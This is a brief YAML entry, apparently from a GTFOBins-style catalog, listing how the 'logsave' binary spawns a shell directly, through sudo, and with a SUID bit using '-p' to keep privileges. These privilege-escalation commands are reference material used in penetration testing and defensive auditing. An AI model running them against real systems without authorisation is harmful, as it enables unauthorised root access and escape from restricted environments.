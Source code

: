 ```yaml
---
functions:
  shell:
    - code: logsave temp.log /bin/sh
  sudo:
    - code: sudo logsave temp.log /bin/sh
  suid:
    - code: ./logsave temp.log /bin/sh -p
---
```

